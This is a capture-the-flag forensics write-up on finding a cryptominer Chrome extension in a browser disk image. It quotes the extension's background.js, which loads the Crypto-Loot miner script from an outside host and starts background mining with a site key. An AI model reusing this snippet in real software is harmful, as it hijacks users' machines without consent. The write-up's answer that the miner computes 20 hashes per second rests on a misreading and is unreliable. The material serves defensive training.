 ```yaml
---
layout: article
title: Browser Forensics - Cryptominer
aside:
  toc: true
sidebar:
  nav: btlo
cover: https://vectorportal.com/storage/nVEpIPzyqnFvwpxEhCkh19Zv2lWfU4CTlOB5NMLc.jpg
permalink: /writeups/browser-crypto-miner
tags:
- BTLO
- Challenges
author: z3f1r0
---
```


## Scenario
Our SOC alerted that there is some traffic related to crypto mining from a PC that was just joined to the network. The incident response team acted immediately, observed that the traffic is originating from browser applications. After collecting all key browser data using FTK Imager, it is your job to use the ad1 file to investigate the crypto mining activity.

## Introduction

First of all, I downloaded "Browser Dump" file and copied it to a Windows VM where it was installed FTK Imager. 

- Here you can download FTK --> [FTK Imager download](https://www.exterro.com/ftk-imager)

Inside "Browser Dump" there are two files:
- **browserdata.ad1**
- **browserdata.ad1.txt**

You have to load **browserdata.ad1** on FTK Imager. I suggest to learn how to FTK Imager works before make the challenge.

When we talk about browser artifacts we talk about, navigation history, bookmarks, list of downloaded files, cache data…etc.
These artifacts are files stored inside of specific folders in the operating system. Each browser stores its files in a different place than other browsers and they all have different names.

## Challenge Submission

### How many browser-profiles are present in Google Chrome?

Profile Path usually is inside **C:\\Documents and Settings\\”USER NAME”\\Local Settings\\Application Data\\Google\\Chrome\\User Data\\Default** and there is another folder with the same structure: **Profile 1**

>2 

### What is the name of the browser theme installed on Google Chrome?

Path where Chrome Extensions are installed:
```text
C:\Documents and Settings\”USER NAME”\Local Settings\Application Data\Google\Chrome\User Data\Default\Extensions
```

In the following path I discovered Theme's name: *C:\\Documents and Settings\\”USER NAME”\\Local Settings\\Application Data\\Google\\Chrome\\User Data\\Default\\Extensions\\iiihlpikmpijdopbaegjibndhpgjmjfe\\1.6_0*

```JSON
{
   "app": {
      "launch": {
         "web_url": "http://atavi.com/browser-themes/?from=chrome-themes&tid=earth_in_space"
      },
      "urls": [ "http://atavi.com/browser-themes/" ]
   },
```

>Earth in Space

### Identify the Extension ID and Extension Name of the cryptominer

Continuing to look inside "Extensions", I discovered the following content inside a *manifest.json* file:

```json
{
   "background": {
      "scripts": [ "background.js" ]
   },
   "description": "Allows staff members to mine cryptocurrency in the background of their web browser",
   "icons": {
      "16": "16.png"
   },
   "key": "MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAp1BrfOdr9hldFysTWVfr6nkuAD8IShanyW+d1kG1J6RKUWOCMQTjNUv2R+K+wz5pvgnrHZfc5jx+rGN1VPgs3VQnYCcFjbe2NXLbLLKkXPATIOLrmMjq7pQAEXu5xuqnRU4AkHumpEX81UD0Vv1TgAi5k1mZLrg5F2B02yXz1tfmMIiqCc/mG7K0/ECNUHXjzi/0B5Ubx3DCZvVSN32H+QvF7lxBnOpgjK9syeHPj4iXiyV9lgiCQjMGe4lKsVJfFT5nAf8tY2BBmna1MtY4LLwV1dIvJ922oFGEs0ty6391RwmC6S0j0oIOdGgQjylZKDREzVw959g/3PGp0lj9BQIDAQAB",
   "manifest_version": 2,
   "minimum_chrome_version": "9",
   "name": "DFP Cryptocurrency Miner",
   "omnibox": {
      "keyword": "DFP Miner"
   },
   "update_url": "https://clients2.google.com/service/update2/crx",
   "version": "3"
}

```

Referring to *description* and *name* we can understand that this is the cryptominer.

> egnfmleidkolminhjlkaomjefheafbbb, DFP Cryptocurrency Miner

### What is the description text of this extension?

> Allows staff members to mine cryptocurrency in the background of their web browser

### What is the name of the specific javascript web miner used in the browser extension?

Opening **background.js** I find the answer.

```js
<script src="https://crypto-loot.com/lib/miner.min.js"></script>
<script>
var miner=new CryptoLoot.Anonymous('b23efb4650150d5bc5b2de6f05267272cada06d985a0',
        {
        threads:3,autoThreads:false,throttle:0.2,
        }
);
miner.start();
</script>
<script>
	// Listen on events
	miner.on('found', function() { /* Hash found */ })
	miner.on('accepted', function() { /* Hash accepted by the pool */ })

	// Update stats once per second
	setInterval(function() {
		var hashesPerSecond = miner.getHashesPerSecond(20);
		var totalHashes = miner.getTotalHashes(256000000);
		var acceptedHashes = miner.getAcceptedHashes();

		// Output to HTML elements...
	}, 1000);
</script>
```

> crypto loot

### How many hashes is the crypto miner calculating per second?

```js
// Update stats once per second
	setInterval(function() {
		var hashesPerSecond = miner.getHashesPerSecond(20);
		var totalHashes = miner.getTotalHashes(256000000);
		var acceptedHashes = miner.getAcceptedHashes();

		// Output to HTML elements...
	}, 1000);
```

>20

### What is the public key associated with this mining activity?

```js
var miner=new CryptoLoot.Anonymous('b23efb4650150d5bc5b2de6f05267272cada06d985a0')
```

### What is the URL of the official Twitter page of the javascript web miner?

Just a Google search.

>twitter.com/CryptoLootMiner


*References*:
- https://nasbench.medium.com/web-browsers-forensics-7e99940c579a
- https://focusinfotech.com/blog/browser-forensics/
- https://infosecwriteups.com/browser-forsensics-cyptominer-49e5beeb4433
